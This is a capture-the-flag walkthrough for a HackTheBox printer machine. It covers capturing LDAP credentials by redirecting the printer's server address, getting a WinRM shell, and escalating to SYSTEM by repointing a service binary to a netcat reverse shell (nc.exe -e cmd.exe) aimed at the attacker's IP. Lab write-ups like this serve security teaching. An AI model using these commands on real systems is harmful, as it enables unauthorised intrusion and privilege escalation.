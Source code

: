 ```yaml
---
date: 2025-02-27
categories: [CTF, HTB]
title: "HTB - Printer Exploitation Track - Return"
tags: ['printer', 'pjl', 'pret']

description: "Printer Exploitation Track - - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Printer Exploitation Track - Return

NMAP

![image1](../resources/a485efe65dc84739a96132edb84ecf56.png)
 

![image2](../resources/053102acbb3e48238b9bc5576dc43329.png)

Add return.local to /etc/hosts

- Port 80 has a Printer admin page

![image3](../resources/5e7b0c3fc4074a10baada13de954c0ab.png)
- I tried to change the password but it didn't work:

![image4](../resources/359038ff22484e58b445df295b414957.png)

- Then I set up a listener on port 389 and change the Server Address to my tun0:

![image5](../resources/d6d2b94dae3641308fe4689e77948afd.png)


![image6](../resources/7ccc9d61b90647e0a989edb5ec87ca3a.png)

**1edFg43012!!**

- And we have valid creds:

![image7](../resources/7b0731136d2c4fc994506ef8895d1fbb.png)

- Shell with winrm:

![image8](../resources/87a0f29c85014707af0047fbead7523c.png)


![image9](../resources/4f72937c07074628b4897d7214cd044f.png)


![image10](../resources/718e5be9fd7941af86182fe2fe17bb6a.png)


![image11](../resources/f86210aed03448c6bd196ccf175534e9.png)

Modify a service path

- Evil-WinRM has services built in:

![image12](../resources/3147b88ac7384e01b4a59fd50895210e.png)

- We'll choose the VMTools service (as it has privileges) and configure the binary it points to:

```bash
sc.exe config VMTools binPath= "C:\Users\svc-printer\Documents\nc.exe -e C:\WINDOWS\System32\cmd.exe 10.10.14.40 9001"

```

![image13](../resources/c2488860a47f453a825ffa64f802e8a8.png)

- Set up a listener:

```bash
rlwrap -cAr nc -lvnp 9001

```
- Now we stop and start the service with:

```bash
sc.exe stop VMTools

sc.exe start VMTools

```

![image14](../resources/ee6b5b9bf4b34937ba9fa1e96add18a6.png)

- Shell as system:

![image15](../resources/86192510452d44f0bed4ab7f1f2d438e.png)

```bash
type root.txt

```